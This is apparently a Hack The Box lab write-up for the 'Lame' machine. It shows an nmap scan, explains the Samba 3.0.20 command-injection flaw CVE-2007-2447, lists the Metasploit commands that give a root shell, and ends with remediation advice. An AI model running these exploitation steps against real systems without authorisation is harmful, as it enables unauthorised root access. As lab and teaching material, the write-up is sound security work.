

# HTB — Lame (Easy, Linux)

## Overview

Lame is an easy Linux machine running outdated services. It is exploited through CVE-2007-2447, a command-injection flaw in Samba 3.0.20's "username map script" feature, which yields a root shell directly.

## Reconnaissance

### Port scan

````
$ nmap -sV -sC -Pn 10.129.104.61
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux
````

The host exposes several dated services. Of note: anonymous FTP (vsftpd 2.3.4) and **Samba 3.0.20** on ports 139/445.

## Exploitation

### CVE-2007-2447 (Samba "username map script")

Samba 3.0.20 is affected by CVE-2007-2447: when the `username map script` option is enabled, the username field is passed to a shell without sanitisation, so shell metacharacters in it are executed by the Samba process — which runs as root. Because Samba runs with root privileges, successful injection yields a root shell with no privilege-escalation step. I exploited it with the corresponding Metasploit module:

````
msf6 > use exploit/multi/samba/usermap_script
msf6 > set RHOSTS 10.129.104.61
msf6 > run
````

The exploit returned a shell as `root`:



````
# id
uid=0(root) gid=0(root)
````

## Remediation

- **Patch Samba:** Upgrade off the end-of-life Samba 3.0.x branch; CVE-2007-2447 is fixed in later releases.
- **Harden configuration:** Avoid `username map script`, or sanitise input; run Samba under a least-privilege account rather than root.
- **Service exposure:** Disable anonymous FTP and remove unused legacy services.
````
````